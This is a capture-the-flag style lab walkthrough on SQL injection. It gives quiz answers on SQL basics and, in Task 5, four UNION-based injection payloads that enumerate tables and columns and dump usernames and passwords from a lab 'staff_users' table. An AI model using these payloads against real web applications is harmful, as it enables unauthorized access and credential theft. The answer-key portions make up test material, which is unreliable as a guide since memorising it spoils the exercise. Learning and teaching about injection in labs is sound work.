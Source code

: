 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

### Task 1: Brief
#### - `What does SQL stand for?`
	- Structured Query Language
	
### Task 2: What is a Database?
#### - What is the acronym for the software that controls a database?
	- DBMS
	
#### - What is the name of the grid-like structure which holds the data?
	- Table
	
### Task 3: What is SQL?
#### - What SQL statement is used to retrieve data?
	- SELECT
	
#### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
	
#### - What SQL statement is used to add data?
	- INSERT

### Task 4: What is SQL Injection?
#### - What character signifies the end of an SQL query?
	- ;

## Task 5: In-Band SQLi?
Deploy the machine, then use the given commands by inserting it next to the last parameter.
- This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
- This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
- This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
- This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
By doing the steps above you will find the username and password, then you can proceed inputting it in the login form.


